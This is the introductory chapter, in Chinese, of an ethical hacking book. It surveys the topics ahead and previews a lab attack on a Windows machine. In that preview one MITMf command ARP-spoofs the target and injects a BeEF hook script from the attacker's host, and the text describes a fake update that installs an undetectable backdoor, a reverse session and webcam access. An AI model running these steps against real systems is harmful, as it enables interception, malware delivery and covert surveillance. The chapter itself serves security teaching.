






# 第一章：介绍

本章主要将简要概述本书中将涉及的主题。它将涵盖与黑客相关的各个方面，从如何进行黑客攻击到如何保护你的系统不被黑客攻击。稍后我们将讨论黑客的概念，并介绍三种类型的黑客：白帽黑客、黑帽黑客和灰帽黑客。在本章的最后，我们将展示一些实时的黑客应用案例。

本章将解答以下问题：

+   本书内容概览

+   什么是黑客技术？

+   我们为什么要学习黑客技术？

+   黑客技术初窥

# 本书内容概览

本书将教你如何从零开始成为一名道德黑客。我们假设你没有任何道德黑客的经验，到本书结束时，你将达到中级（到高级）水平。

这是本书内容的简要概述：

+   准备工作

+   渗透测试

+   保护自己的系统

# 准备工作

在本书的第一部分，你将学习如何创建自己的实验室，以便在自己的计算机上进行道德黑客练习。你还将学习如何安装 Linux 系统并与之互动，以及如何设置其他系统进行黑客攻击练习。

# 渗透测试

本书的这一部分，我们将涵盖最重要的渗透测试领域。在每个部分中，我们将首先说明特定系统是如何工作的，然后测试该系统的安全性。在接下来的部分中，我们将介绍本书中涉及的各种渗透测试类型。

# 网络渗透测试

在网络渗透测试中，我们将首先学习网络是如何工作的，设备之间是如何互动的。

首先，我们将深入了解周围的网络；我们将通过设置一个虚假的接入点并诱使人们连接到网络，从而捕获通过这些网络发送或接收的数据。然后我们将学习如何获取任何 Wi-Fi 网络的密码，无论它是使用 WEP、WPA 还是 WPA2 加密。

我们还将介绍大量强大的攻击方法，这些方法可以让我们获得任何网络中计算机访问的账户的访问权限。我们将能够捕获网络上计算机发送或接收的用户名、密码、图片和图像。

# 获取访问权限

本章的这一部分，我们将学习如何获取计算机系统的访问权限。有两种方法可以破解计算机：

+   服务器端攻击

+   客户端攻击

在学习服务器端攻击时，你将看到如何发现安装在目标计算机上的程序中的弱点，以及如何利用这些弱点获取计算机的完全访问权限。

在客户端攻击中，你将学习如何使用社会工程学来入侵目标，你将学习如何创建不可检测的后门、看起来像图片或照片的后门等。我们还将学习如何通过使用假更新或假下载来获取我们网络中任何计算机的访问权限。

# 后期利用

在本节中，我们将讨论后期利用，学习如何控制我们已入侵的设备。因此，我们将看到如何打开系统的摄像头、管理其文件系统，以及如何下载或上传文件。我们还将学习如何捕获用户在键盘上输入的所有按键，甚至将那台计算机作为跳板，攻击其他计算机。

# 网站渗透测试

在最后的部分，我们将讨论网站渗透测试，我们将学习如何收集关于网站的全面信息，包括如何发现、利用和减轻大量严重的漏洞。

# 保护你的系统

最后，我们将学习如何保护自己（以及我们的系统）免受前面章节中讨论的攻击。

# 什么是黑客攻击？

通过黑客攻击，你可以做一些你本不应该（或不被允许）做的事情。例如，你可以查看你没有权限看到的信息，或使用你不被允许使用的计算机。黑客攻击有很多种类型，如电子邮件黑客、计算机黑客、服务器黑客和网站应用程序黑客等。

黑客有三种不同类型：

+   **黑帽黑客**：黑帽黑客为自己的利益入侵系统；他们就是那些偷窃金钱或纯粹为了自己的利益而破坏系统的人。

+   **白帽黑客**：白帽黑客试图保护系统安全；他们可能使用与黑帽黑客相同的方法，但他们只对拥有许可的系统进行测试，以查看系统是否存在漏洞——他们入侵这些系统是为了修复它们。

+   **灰帽黑客**：还有一些灰帽黑客，他们是黑帽和白帽的混合体；他们会测试任何他们想测试的系统，即使没有得到黑客攻击的许可。一旦他们入侵了系统，他们不会破坏任何东西或窃取金钱；他们不会造成损害。甚至可能会告诉管理员如何修复漏洞。

在本书中，我们将是白帽黑客。本书仅用于教育目的，旨在教授黑客技术。它适用于那些希望保护自己网络安全、并希望成为渗透测试员来保护计算机系统的人。

# 为什么我们要学习黑客技术？

黑客是一个现有的领域 - 在其中有许多工作机会，每天都在发生，需要越来越多的保护。我们都听说过索尼的黑客事件，当 PlayStation 长时间停机时。像索尼这样的公司实际上正在雇佣人员来尝试黑入他们。您将学习如何黑入网络和系统，以便您可以保护它们免受黑客的攻击。

不久前，有人发现了一种方法来暴力破解 Facebook 移动网站的恢复密码密钥，因为 Facebook 没有检查您输入错误 PIN 的次数。一旦这个人做到了，他们告诉了 Facebook，并因此获得了$20,000 的奖励，因为 Facebook 有一个漏洞赏金计划。目前，许多网站和公司都有漏洞赏金计划 - 他们要求人们尝试黑客攻击他们，如果攻击成功，根据攻击的危险程度支付一定金额的报酬。

# 黑客的一瞥

在接下来的章节中，我们将学习如何安装黑客所需的操作系统和程序。然后，我们将学习一些关于黑客的基础知识，以及如何使用涉及的操作系统。在我们开始之前，我想给您一个关于本书结尾时您将能够做什么的概述。在本节中，我们将通过一个示例来了解如何从 Linux 机器黑入 Windows 计算机。

不要担心我们如何安装这些机器或如何运行这些命令；现在，这只是一个例子。将来，我们将把这个过程分解成步骤，您将确切地看到如何进行攻击。您还将了解攻击的工作原理，以及如何保护自己免受此类攻击。

# 浏览器利用框架

现在，我们将使用一个名为**浏览器利用框架**（**BeEF**）的程序：

1.  我们将启动 BeEF XSS 框架。它使用 JavaScript 代码来 hook 目标计算机；一旦计算机被 hook，我们将能够运行许多命令。以下是它的外观截图：



1.  要运行这些命令，我们将使用中间人攻击来自动注入 BeEF 的 hook 代码。我们将使用一个名为 MITMf 的工具来执行 ARP 欺骗攻击。我们将提供网络接口、网关和目标 IP 地址，即 Windows 机器的地址。

1.  接下来，我们将告诉 MITMf 我们希望它注入一个 JavaScript URL，并给出存储 hook 的位置。代码将类似于这样：

```
mitmf --arp --spoof -i eth0 --gateway 10.0.2.1 --target 10.0.2.5 --inject --js-url http://10.0.2.15:3000/hook.js
```

1.  一旦完成这个步骤，按下*Enter*，它将成功运行。其输出如下所示：



1.  这看起来很复杂；我们不知道选项是从哪里来的，所以在前面的截图中可能显得非常混乱。别担心；我们稍后会详细讨论，它会变得对你来说很容易。现在，我们需要理解的是，这个程序将注入钩子代码；这个代码允许 BeEF 黑客入侵目标计算机，并且可以在目标用户毫不知情的情况下在其浏览器中运行。

1.  现在，去 Windows 机器并运行网页浏览器。我们将访问任何网站，例如 Google 或 Bing。

1.  如果你回到 Kali 机器，你会看到我们在 Hooked Browsers 下有目标用户的 IP 地址，如果你点击 Commands 标签，你会看到很多类别，其中包含可以在目标计算机上运行的命令。这些在下面的截图中显示：



1.  让我们向目标展示一个假通知栏，告诉他们有一个新的更新提示，因此点击 Social Engineering | Fake Notification Bar（Firefox），如下面的截图所示：



1.  这将向目标用户显示一个新的更新提示，一旦他们安装了更新，我们就可以入侵他们的计算机。现在，让我们配置假通知栏，在用户点击后安装后门。

1.  我们有一个现成的后门，它不会被杀毒软件检测到（你将在接下来的章节中看到如何做到这一点）。我们将存储这个后门，并命名为`update.exe`。

1.  接下来，我们将点击 Execute。现在，在运行更新之前，我们需要监听传入连接，以便在受害者尝试更新他们的计算机时连接到目标计算机。现在，如果我们点击假通知栏命令上的 Execute，该栏将显示在目标的浏览器中，如下图所示：



1.  在前面的截图中，Firefox 显示有一个关键更新，提示你点击 Install plug-in 来安装该更新。点击后，你会看到它已经下载了一个更新文件，保存它，然后运行更新。

1.  如果我们回到 Kali 机器，我们会看到我们成功从 Windows 机器获取了反向会话。所以，让我们与那台计算机进行交互；我们基本上将完全控制它：



现在，让我们看看如何访问目标计算机的网络摄像头。

# 访问目标计算机的网络摄像头

要访问网络摄像头，我们将使用随 Meterpreter 附带的插件；我们将使用`webcam_stream`命令。

当我们按下*Enter*键时，我们将能够开启摄像头。这个摄像头实际上是连接到 Windows 机器上的；我们已经入侵了这台 Windows 机器，接下来可以在上面做任何我们想做的事。再次强调，这只是我们将要使用的一个攻击示例。我们将执行更多类似的攻击，而这些攻击将使我们能够完全控制目标系统。

# 概述

在这一章中，我们简要介绍了本书中将深入探讨的一些主题。我们讨论了如何使用 Linux 机器入侵运行 Windows 操作系统的计算机。接着，我们通过实际例子了解了黑客攻击的概念。还讨论了不同类型的黑客。最后，我们看到了黑客攻击中涉及的各种应用。

在接下来的章节中，我们将搭建一个虚拟环境来执行各种渗透测试。我们还将安装 Kali Linux、Windows 和 Metaspoitable 机器。
